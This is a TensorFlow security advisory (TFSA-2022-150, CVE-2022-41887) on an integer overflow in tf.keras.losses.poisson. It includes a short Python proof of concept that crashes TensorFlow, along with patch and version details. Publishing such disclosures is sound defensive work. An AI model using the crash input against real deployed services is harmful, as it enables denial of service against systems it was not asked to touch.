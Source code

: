 ## TFSA-2022-150: Overflow in `tf.keras.losses.poisson`

### CVE Number
CVE-2022-41887

### Impact
[`tf.keras.losses.poisson`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/keras/losses.py) receives a `y_pred` and `y_true` that are passed through `functor::mul` in [`BinaryOp`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/cwise_ops_common.h). If the resulting dimensions overflow an `int32`, TensorFlow will crash due to a size mismatch during broadcast assignment.
```python
import numpy as np
import tensorflow as tf

true_value = tf.reshape(shape=[1, 2500000000], tensor = tf.zeros(dtype=tf.bool, shape=[50000, 50000]))
pred_value = np.array([[[-2]], [[8]]], dtype = np.float64)

tf.keras.losses.poisson(y_true=true_value,y_pred=pred_value)
```

### Patches
We have patched the issue in GitHub commit [c5b30379ba87cbe774b08ac50c1f6d36df4ebb7c](https://github.com/tensorflow/tensorflow/commit/c5b30379ba87cbe774b08ac50c1f6d36df4ebb7c).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1 and 2.9.3, as these are also affected and still in supported range. However, we will not cherrypick this commit into TensorFlow 2.8.x, as it depends on Eigen behavior that changed between 2.8 and 2.9.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Pattarakrit Rattankul.
